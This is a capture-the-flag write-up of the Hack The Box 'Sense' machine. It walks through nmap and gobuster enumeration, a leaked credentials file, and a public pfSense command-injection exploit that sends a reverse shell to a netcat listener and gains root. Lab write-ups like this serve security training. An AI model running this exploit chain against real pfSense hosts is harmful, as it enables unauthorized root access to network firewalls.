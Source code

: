 ```yaml
---
layout: single
title: Sense - Hack The Box
excerpt: This is the writeup for Sense, an absurdly easy machine with an authenticated RCE  
date: 2021-01-23
classes: wide
header:
  teaser: /assets/images/htb-writeup-beep/beep-logo.png
categories:
  - hackthebox
  - infosec
tags:
  - linux
  - dumb-machines
---
```


![](/assets/images/htb-writeup-sense/sense_logo.png)




<h2> Initial Foothold </h2>

We start the usual basics with an nmap scan

```bash
# Nmap 7.80 scan initiated Mon Jan 18 03:15:22 2021 as: nmap -sV -sC -Pn -oN nmap/init 10.10.10.60
Nmap scan report for 10.10.10.60
Host is up (0.10s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 18 03:17:19 2021 -- 1 IP address (1 host up) scanned in 116.57 seconds
```

we notice that 80 and 443 are open, however the 80 port only redirects any request to https

```bash
curl http://10.10.10.60/ --insecure --verbose
*   Trying 10.10.10.60:80...
* TCP_NODELAY set
* Connected to 10.10.10.60 (10.10.10.60) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.60
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 301 Moved Permanently
< Location: https://10.10.10.60/
< Content-Length: 0
< Date: Mon, 18 Jan 2021 10:29:49 GMT
< Server: lighttpd/1.4.35
< 
* Connection #0 to host 10.10.10.60 left intact
                                                      
```

When we visit HTTPs https://10.10.10.60, we get a pfsense login page. We can look for the deafult logins on google and they are `"username":"pfsense"`, however they don't work

for now i'll run gobuster with `directory-list-lowercase-2.3-medium.txt` in the background and look around for more clues

```bash

gobuster dir -w /home/tyr4n7/Documents/seclist/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  -t 50  --url https://10.10.10.60/ -o enum/http_80 -k

```

I'll also check for common vulnerabilities using `searchexploit`:

```bash
searchsploit pfsense                                                                                                           130 ⨯
------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- ---------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                                     | hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                           | hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                                       | hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                                   | hardware/remote/35070.txt
pfSense - (Authenticated) Group Member Remote Command Execution (Metasploit)                           | unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                           | php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution           | php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                                  | php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                                 | php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                                    | php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                                    | php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                                      | php/webapps/41501.txt
Pfsense 2.3.4 / 2.4.4-p3 - Remote Code Injection                                                       | php/webapps/47413.py
pfSense 2.4.1 - Cross-Site Request Forgery Error Page Clickjacking (Metasploit)                        | php/remote/43341.rb
pfSense 2.4.4-p1 (HAProxy Package 0.59_14) - Persistent Cross-Site Scripting                           | php/webapps/46538.txt
pfSense 2.4.4-p1 - Cross-Site Scripting                                                                | multiple/webapps/46316.txt
pfSense 2.4.4-p3 (ACME Package 0.59_14) - Persistent Cross-Site Scripting                              | php/webapps/46936.txt
pfSense 2.4.4-P3 - 'User Manager' Persistent Cross-Site Scripting                                      | freebsd/webapps/48300.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                         | php/webapps/43560.py
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                             | php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                                        | php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                           | php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                                      | freebsd/webapps/24439.txt
------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
````

sadly we cannot get any clues about the version of pfsense using the common methods and thus we'll have to blindly run exploits and check if they work or not, however
most of them are not interesting except for the command injection 43560. It'd seem more plausible unlike other XSS exploits. Let's grab the exploit and run it 

```
searchsploit -m  php/webapps/43560.py
chmod +x 43560.py
./43560.py
/usr/bin/env: ‘python3\r’: No such file or directory
```
There are some carriage and trailing characters affecting it. we can delete the `\r` character by doing `tr -d '\r' < 43569.py > exploit.py`
running the exploit again, we clearly see that it requires authentication of an admin (username+password). Let's get back at our gobuster and see if it yielded anything, yet

```bash
gobuster dir -w /home/tyr4n7/Documents/seclist/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  -t 50  --url https://10.10.10.60/ -o enum/http_80 -k
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60/
[+] Threads:        50
[+] Wordlist:       /home/tyr4n7/Documents/seclist/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/18 04:34:49 Starting gobuster
===============================================================
/themes (Status: 301)
/css (Status: 301)
/includes (Status: 301)
/javascript (Status: 301)
/classes (Status: 301)
/widgets (Status: 301)
/tree (Status: 301)
/shortcuts (Status: 301)
/installer (Status: 301)
/wizards (Status: 301)
/csrf (Status: 301)
[ERROR] 2021/01/18 04:41:44 [!] Get https://10.10.10.60/60951: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/filebrowser (Status: 301)
/%7echeckout%7e (Status: 403)
/system-users.txt (Status: 200)
===============================================================
2021/01/18 04:46:33 Finished
===============================================================
```
The system-users.txt looks interesting, let's check it out

```bash
curl https://10.10.10.60/system-users.txt
####Support ticket###

Please create the following user


username: Rohit
password: company defaults 
```
so it seems someone was gentle enough to leave us a password in the main directory. huh, that's honestly disappointing, could have been a little bit more interesting than that. Nonetheless we'll use it to run our exploit and get us a shell by running `nc -lnvp 2424` on shell-A and the exploit on shell-B

shell-B: 

```bash
./exploit.py --rhost 10.10.10.60 --lhost 10.10.14.4 --lport 2424 --username rohit --password pfsense       
CSRF token obtained
Running exploit...
Exploit completed
```

Shell-A:

```bash
nc -lnvp 2424         
listening on [any] 2424 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.60] 34389
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
```

Which got us the root shell, so there's no need to privesc. This was honestly the lamest box i've ever came across, it's basically the "Lame" box but with extra steps ¯\_(ツ)_/¯ 

Hope this helped,

-Tyr4n7


